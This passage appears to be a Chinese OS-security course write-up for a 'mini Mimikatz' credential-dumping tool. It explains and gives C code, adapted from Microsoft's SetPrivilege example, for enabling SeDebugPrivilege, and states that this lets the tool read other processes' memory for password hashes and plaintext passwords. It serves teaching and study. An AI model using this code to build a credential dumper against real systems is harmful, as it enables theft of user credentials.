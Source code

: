 # mini 版 Mimikatz

(2024-2025-2)-NIS3358-01-操作系统安全技术与实践

## 1. EnableSeDebugPrivilege()
此函数的作用是启用管理员账户默认禁用的`SeDebugPrivilege`权限，以便后续操作可以访问系统进程和内存。

启用`SeDebugPrivilege`是获取系统敏感信息的前提条件，可以让 Mimikatz 访问和操作其他进程的内存，从而提取敏感信息，如密码散列、明文密码等。

通过调用 Windows API 函数 `OpenProcessToken` 和 `LookupPrivilegeValue`，可以获取当前进程的访问令牌，并启用`SeDebugPrivilege`权限。

参考 Windows 应用开发文档(https://learn.microsoft.com/zh-cn/windows/win32/secauthz/enabling-and-disabling-privileges-in-c--)示例代码中的`SetPrivilege`函数及特权常量表。

| 特权常量 | 字符串值 | 显示名称 |
| --- | --- | --- |
| SE_ASSIGNPRIMARYTOKEN_NAME | SeAssignPrimaryTokenPrivilege | 替换进程级令牌 |
| SE_BACKUP_NAME | SeBackupPrivilege | 备份文件和目录 |
| SE_DEBUG_NAME | SeDebugPrivilege | 调试程序 |
| SE_INCREASE_QUOTA_NAME | SeIncreaseQuotaPrivilege | 调整进程的内存配额 |
| SE_TCB_NAME | SeTcbPrivilege | 以操作系统方式操作 |

查表可知，`SE_DEBUG_NAME`对应的字符串值为`SeDebugPrivilege`，因此可以通过调用文档中的`SetPrivilege`函数来启用该特权，只需设置`lpszPrivilege`等参数即可。

具体实现如下：

```c
BOOL EnableSeDebugPrivilege()
{
	HANDLE hToken = NULL;          // access token handle  
	LPCTSTR lpszPrivilege = SE_DEBUG_NAME;  // name of privilege to enable/disable  
	BOOL bEnablePrivilege = TRUE;   // to enable or disable privilege  

	TOKEN_PRIVILEGES tp;
	LUID luid;

	// Open the process token
	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
	{
		printf("OpenProcessToken error: %u\n", GetLastError());
		return FALSE;
	}

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system  
		lpszPrivilege,   // privilege to lookup   
		&luid))          // receives LUID of privilege  
	{
		printf("LookupPrivilegeValue error: %u\n", GetLastError());
		CloseHandle(hToken);
		return FALSE;
	}

	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	if (bEnablePrivilege)
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	else
		tp.Privileges[0].Attributes = 0;

```